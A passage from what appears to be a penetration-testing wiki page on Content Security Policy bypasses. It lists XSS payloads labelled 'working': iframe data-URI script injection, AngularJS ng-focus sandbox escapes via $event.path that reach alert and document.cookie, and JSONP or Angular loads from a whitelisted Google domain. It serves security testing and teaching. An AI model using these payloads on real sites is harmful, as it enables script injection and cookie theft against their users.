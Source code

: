 Working payloads:

```markup
<iframe srcdoc='<script src="data:text/javascript,alert(document.domain)"></script>'></iframe>

* sometimes it can be achieved using defer& async attributes of script within iframe (most of the time in new browser due to SOP it fails but who knows when you are lucky?)
<iframe src='data:text/html,<script defer="true" src="data:text/javascript,document.body.innerText=/hello/"></script>'></iframe>
```

### AngularJS events

Depending on the specific policy, the CSP will block JavaScript events. However, AngularJS defines its own events that can be used instead. When inside an event, AngularJS defines a special `$event` object, which simply references the browser event object. You can use this object to perform a CSP bypass. On Chrome, there is a special property on the `$event/event` object called `path`. This property contains an array of objects that causes the event to be executed. The last property is always the `window` object, which we can use to perform a sandbox escape. By passing this array to the `orderBy` filter, we can enumerate the array and use the last element \(the `window` object\) to execute a global function, such as `alert()`. The following code demonstrates this:

```markup
<input autofocus ng-focus="$event.path|orderBy:'[].constructor.from([1],alert)'">
?search=<input id=x ng-focus=$event.path|orderBy:'(z=alert)(document.cookie)'>#x
```

### AngularJS and whitelisted domain

```text
Content-Security-Policy: script-src 'self' ajax.googleapis.com; object-src 'none' ;report-uri /Report-parsing-url;
```

If the application is using angular JS and scripts are loaded from a whitelisted domain. It is possible to bypass this CSP policy by calling callback functions and vulnerable class. For more details visit this awesome [git](https://github.com/cure53/XSSChallengeWiki/wiki/H5SC-Minichallenge-3:-%22Sh*t,-it's-CSP!%22) repo.

Working payloads:

```text
"><script src=//ajax.googleapis.com/ajax/services/feed/find?v=1.0%26callback=alert%26context=1337></script>
ng-app"ng-csp ng-click=$event.view.alert(1337)><script src=//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js></script>
```

### Bypass CSP with dangling markup

Read [how here](dangling-markup-html-scriptless-injection.md).

### 'unsafe-inline'; img-src \*; via XSS

```text
default-src 'self' 'unsafe-inline'; img-src *;
```
